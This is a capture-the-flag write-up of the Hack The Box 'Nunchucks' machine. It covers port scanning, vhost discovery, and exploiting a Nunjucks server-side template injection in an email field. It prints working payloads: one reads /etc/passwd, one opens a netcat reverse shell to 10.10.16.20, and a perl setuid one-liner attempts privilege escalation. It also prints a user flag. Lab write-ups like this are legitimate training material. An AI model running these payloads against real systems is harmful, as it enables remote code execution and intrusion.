 # Nunchucks 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/07260abf-8e6f-49eb-86fa-aefb6913930f)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ nmap -p- -sVC 10.10.11.122 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 03:41 PDT
Nmap scan report for 10.10.11.122
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.76 seconds
```

1. Based from the nmap results, the machine runs a web applicatoin and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0e52b16f-9ae9-402b-8691-25f5011ffc30)


2. Trying every feature, resulting to nothing interesting. Even when tried to register account, they said it's closed already.
3. Running **dirbuster** found nothing interesting again.
4. But checking the subdomain, by running **gobuster**, found one domain that should be our interest --> `store.nunchucks.htb`.

#### NOTES:
```
Since nunchuck is https --> hence need to add -k

gobuster vhost -u host -w wordlists -k
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3bf45dc4-6fcb-44db-b099-ca71aaf0a13d)


5. Long story short found the vuln at the **Notify Me** textbox --> SSTI.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6408bf16-245e-448e-8c0f-6418f281c85e)


6. The vuln is SSTI as you can see the webserver execute the regex operation.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/22c82c7c-0e2e-4059-b1aa-58148a6c2447)


7. Great! Seems this is our foothold.
8. Anyway, after ran another ssti for flask, it shows nothing.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/16c5bb63-e8f4-4945-a106-1824e140aabb)


9. Not took me long to realized that the template engine used probably is **Nunjucks**. It's easy to guess based from the chall title and programming language used in this webapp.

> WAPPALYZER RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63734eda-2187-4acd-8dfc-d3889acce18b)


10. Did a little outsource about **Nunjucks Template Engine** exploit.

```
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3e2f4c37-6109-4a83-bada-54e895ef8553)


11. But we need to revised a little bit.

> REVISED

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gmail.com
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9203ea2-0ebb-48f5-ae52-516ac4c9335d)


12. Let's spawn reverse shell with our template payload. Here's the full payload:

> PAYLOAD

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.20 1337 >/tmp/f')\")()}}@gmail.com
```

#### NOTE:

```
Use the previous request we sent to repeater then change the JSON email parameter value, it won't work if we tried to catch the request from 0 again.
```

> RESULT - GOT RCEEEEE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab0062ae-ff95-4cd2-a6a5-a4b52f5232ee)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/987824cc-b833-48f5-9811-353167867a9b)


## USER FLAG

```
341e52e2c4724a2da3b7af04a076458b
```

13. Actually it took me a while to get the root flag, until I realized the capabilities for perl is vulnerable here.

> To check cap --> run --> getcap -r /

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4661780-cafc-4725-85f5-46c9dae72057)


14. To do privesc we can use this --> `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`.
15. Anyway dunno why it can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/845ae0e5-da06-40b3-b928-468cf63c4d40)


16. Even to get the root flag still can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab4e90d8-637b-4db4-afb7-816f8dbe28a8)


17. Interesting.
